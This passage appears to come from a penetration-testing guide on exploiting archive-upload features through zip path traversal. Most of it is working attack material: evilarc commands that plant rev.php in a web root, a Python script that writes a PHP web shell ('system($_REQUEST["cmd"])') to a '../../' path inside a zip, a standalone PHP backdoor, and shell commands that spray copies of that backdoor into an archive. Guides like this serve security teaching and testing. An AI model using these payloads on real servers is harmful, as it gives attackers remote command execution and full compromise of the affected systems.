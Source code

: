 An automated exploit to craft such files is available at [**evilarc on GitHub**](https://github.com/ptoomey3/evilarc). The utility can be used as shown:

```python
# Listing available options
python2 evilarc.py -h
# Creating a malicious archive
python2 evilarc.py -o unix -d 5 -p /var/www/html/ rev.php
```

Additionally, the **symlink trick with evilarc** is an option. If the objective is to target a file like `/flag.txt`, a symlink to that file should be created in your system. This ensures that evilarc does not encounter errors during its operation.

Below is an example of Python code used to create a malicious zip file:

```python
#!/usr/bin/python
import zipfile
from io import BytesIO

def create_zip():
    f = BytesIO()
    z = zipfile.ZipFile(f, 'w', zipfile.ZIP_DEFLATED)
    z.writestr('../../../../../var/www/html/webserver/shell.php', '<?php echo system($_REQUEST["cmd"]); ?>')
    z.writestr('otherfile.xml', 'Content of the file')
    z.close()
    zip = open('poc.zip','wb')
    zip.write(f.getvalue())
    zip.close()

create_zip()
```

**Abusing compression for file spraying**

For further details **check the original post in**: [https://blog.silentsignal.eu/2014/01/31/file-upload-unzip/](https://blog.silentsignal.eu/2014/01/31/file-upload-unzip/)

1.  **Creating a PHP Shell**: PHP code is written to execute commands passed through the `$_REQUEST` variable.

    ```php
    <?php
    if(isset($_REQUEST['cmd'])){
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
    }?>
    ```

2.  **File Spraying and Compressed File Creation**: Multiple files are created and a zip archive is assembled containing these files.

    ```bash
    root@s2crew:/tmp# for i in `seq 1 10`;do FILE=$FILE"xxA"; cp simple-backdoor.php $FILE"cmd.php";done
    root@s2crew:/tmp# zip cmd.zip xx*.php
    ```
